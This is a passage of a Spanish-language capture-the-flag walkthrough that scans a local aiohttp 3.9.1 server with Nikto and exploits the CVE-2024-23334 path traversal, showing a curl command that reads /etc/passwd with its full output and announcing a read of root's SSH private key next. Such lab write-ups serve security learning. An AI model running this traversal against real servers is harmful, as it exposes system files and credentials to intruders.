 Aplicamos un reconocimiento de la web con `Nikto`.

```bash
❯ nikto -h http://127.0.0.1:8080/
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          127.0.0.1
+ Target Hostname:    127.0.0.1
+ Target Port:        8080
+ Start Time:         2024-11-09 19:47:55 (GMT1)
---------------------------------------------------------------------------
+ Server: Python/3.9 aiohttp/3.9.1
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
```
Observamos el servicio `aiohttp 3.9.1` y buscamos vulnerabilidades asociadas a este servicio y versión. Encontramos que es vulnerable a `Path Traversal`. [CVE-2024-23334](https://github.com/z3rObyte/CVE-2024-23334-PoC). Analizando el script del PoC tartamos de confirmar que es vulnerable tratando de listar el `/etc/passwd`.

```bash
❯ curl --path-as-is http://127.0.0.1:8080/assets/../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
rosa:x:1000:1000:rosa:/home/rosa:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
app:x:1001:1001:,,,:/home/app:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```
En este punto que hemos confirmado que es vulnerable podemos listar la clave `id_rsa` del usuario `root`.
